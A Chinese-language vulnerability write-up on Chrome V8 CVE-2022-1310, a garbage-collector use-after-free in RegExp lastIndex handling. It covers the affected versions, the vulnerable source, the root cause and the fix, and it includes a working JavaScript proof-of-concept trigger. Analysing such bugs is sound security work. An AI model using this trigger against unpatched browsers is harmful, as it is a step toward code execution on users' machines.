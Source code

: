 ## Chrome V8命令执行漏洞（CVE-2022-1310）
> @btiszka报告于2022年3月18日, google 更新于2022年4月11日

### 漏洞描述

chrome V8 引擎的垃圾回收机制中，在处理Number类型数据时，没有考虑Smi值溢出的情况，致使新分配的HeapNumber对象破坏了Write-Barrier机制造成UAF，最终导致了任意代码执行。

### 影响范围

chrome v100.0.4896.88前版本

### 漏洞详情

#### 漏洞位置

```cpp
MaybeHandle<Object> RegExpUtils::SetLastIndex(Isolate* isolate,
                                              Handle<JSReceiver> recv,
                                              uint64_t value) {
  Handle<Object> value_as_object =
      isolate->factory()->NewNumberFromInt64(value); /*** A ***/
  if (HasInitialRegExpMap(isolate, *recv)) { /*** B ***/
    JSRegExp::cast(*recv).set_last_index(*value_as_object, SKIP_WRITE_BARRIER); /*** C ***/
    return recv;
  } else {
    return Object::SetProperty(
        isolate, recv, isolate->factory()->lastIndex_string(), value_as_object,
        StoreOrigin::kMaybeKeyed, Just(kThrowOnError));
  }
}

```

#### 漏洞触发条件

将最大 smi 1073741823 存储到 `last_index` 中，`AdvancedStringIndex` 会将其递增为 `1073741824`，然后 `NewNumberFromInt64` 会将其转换为 NewSpace 中的 `HeapNumber`，最后是 `JSRegExp ::cast(*recv).set_last_index` 会将其存储到正则表达式对象中，没有任何写障碍。如果 regexp 对象在 old-space 中，则 `NewNumberFromInt64` 分配的 HeapNumber 在 NewSpace 中，并且发生 Minor GC 这会导致 `last_index` 成为悬空指针并指向 NewSpace 中的任意对象。

#### 漏洞原理

当在JS代码中调用re[Symbol.replace]函数时，V8引擎使用Runtime_RegExpReplaceRT函数进行处理，函数中的异常退出分支会调用RegExpUtils::SetAdvancedStringIndex，该函数最终将re.lastIndex加1并写回re对象中。

![ttt](png/chrome_v8_UAF_1.png)

可见，上述函数功能约等于re.lastIndex += 1，对于类似的代码逻辑，在底层语言中通常需要考虑边界值，防止出现数据溢出。V8中的Number类型分为Smi和HeapNumber，Smi代表了小整数，和对象中的指针共享存储空间，通过值的最低位是否为0来区分类型，超出Smi表示范围的值会在堆中创建HeapNumber对象来表示，在32位环境下，Smi值的范围为-2^30到2^30 – 1。

![ttt](png/chrome_v8_UAF_2.png)

根据上述逻辑，当我们对RegExp对象赋值re.lastIndex=1073741823，并进入Runtime_RegExpReplaceRT函数逻辑时，由于加1后的值1073741824超过Smi的表示范围，V8引擎在堆中重新申请了一个HeapNumber对象来存储新的lastIndex值，此时，该RegExp对象的lastIndex属性不再是一个Smi数，而是一个指向堆中HeapNumber对象的指针。如下图所示：

![ttt](png/chrome_v8_UAF_3.png)

在之前的垃圾回收中已经介绍，V8的Minor GC的Write-Barrier机制需要对将新生代内存中的新建对象置灰并添加到标记列表中，以省略对老年代对象的遍历。但函数SetLastIndex在处理RegExp对象存在初始化Map情况的代码分支中，默认lastIndex是一个Smi值并使用SKIP_WRITE_BARRIER标记跳过了写屏障。因此，当re.lastIndex变成了HeapNumber对象，又没有被Write-Barrier标记，那么在GC发生时，该对象就会被当作可回收对象被释放，释放后re.lastIndex属性指针就变成了一个悬垂指针，指向了一个已释放的堆空间，再次尝试访问这个对象空间，就产生了Use-After-Free漏洞。

![ttt](png/chrome_v8_UAF_4.png)

该漏洞（CVE-2022-1310）是一个典型的UAF漏洞，触发后可以通过堆喷重新分配释放后的内存空间达到利用的目的，但由于GC时间和堆喷的不稳定性，会给漏洞利用增加一定难度。在漏洞报告中，作者也给出了完整的利用代码，感兴趣可通过参考文档中的issue 1307610的完整报告继续研究。

![ttt](png/chrome_v8_UAF_5.png)

### poc/exp

[poc.js](https://bugs.chromium.org/p/chromium/issues/attachmentText?aid=547161)

```js
var ref = new Array(1000000);
var rid = 0;

var re = new RegExp('foo', 'g');

function major_gc() {
    new ArrayBuffer(0x7fe00000);
}

function minor_gc() {
    for (var i = 0; i < 32; i++) {
        ref[rid++] = new ArrayBuffer(0x200000);
    }
    ref[rid++] = new ArrayBuffer(1); // ram heuristic
}
//%DebugPrint(re);
var tmp = re.exec;

var match_object = {};
match_object[0] = {
    toString : function() {
        return "";
    }
};

re.exec = function() {
    major_gc(); // mark-sweep
    delete re.exec; // transition back to initial regexp map
    re.lastIndex = 1073741823; // maximum smi, adding one will result in a HeapNumber
    RegExp.prototype.exec = function() {
        throw ''; // break out of Regexp.replace
    }
    return match_object;
};

try {
    var newstr = re[Symbol.replace]("fooooo", ".$");
} catch(e) {}

minor_gc();
minor_gc();
major_gc();

print(re.lastIndex);
```


### 漏洞修复建议

相关厂商已更新补丁修复漏洞，升级相关软件至最新版本。
将SKIP_WRITE_BARRIER标记改成UPDATE_WRITE_BARRIER即可。

![ttt](png/chrome_v8_UAF_6.png)